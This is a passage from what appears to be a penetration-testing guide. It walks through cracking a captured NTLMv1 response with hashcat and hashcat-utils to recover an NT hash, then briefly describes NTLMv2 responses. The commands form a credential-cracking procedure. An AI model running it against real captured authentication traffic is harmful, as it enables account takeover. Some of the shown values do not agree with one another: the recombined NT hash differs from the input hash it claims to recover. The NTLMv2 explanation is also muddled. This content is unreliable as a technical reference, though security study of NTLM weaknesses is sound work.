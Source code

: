 Create a file with the contents of:
```
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```

Run hashcat (distributed is best through a tool such as hashtopolis) as this will take several days otherwise.

```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

In this case we know the password to this is password so we are going to cheat for demo purposes:
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

We now need to use the hashcat-utilities to convert the cracked des keys into parts of the NTLM hash:
```
./hashcat-utils/src/deskey_to_ntlm.pl b55d6d05e7792753
b4b9b02e6f09a9 # this is part 1

./hashcat-utils/src/deskey_to_ntlm.pl bcba83e6895b9d
bd760f388b6700 # this is part 2
```

finally the last part
```
./hashcat-utils/src/ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

586c # this is the last part
```

combine them together
```
NTHASH=b4b9b02e6f09a9bd760f388b6700586c
```

### NTLMv2 Challenge

The **challenge length is 8 bytes** and **2 responses are sent**: One is **24 bytes** long and the length of the **other** is **variable**.

**The first response** is created by ciphering using **HMAC\_MD5** the **string** composed by the **client and the domain** and using as **key** the **hash MD4** of the **NT hash**. Then, the **result** will by used as **key** to cipher using **HMAC\_MD5** the **challenge**. To this, **a client challenge of 8 bytes will be added**. Total: 24 B.

The **second response** is created using **several values** (a new client challenge, a **timestamp** to avoid **replay attacks**...)

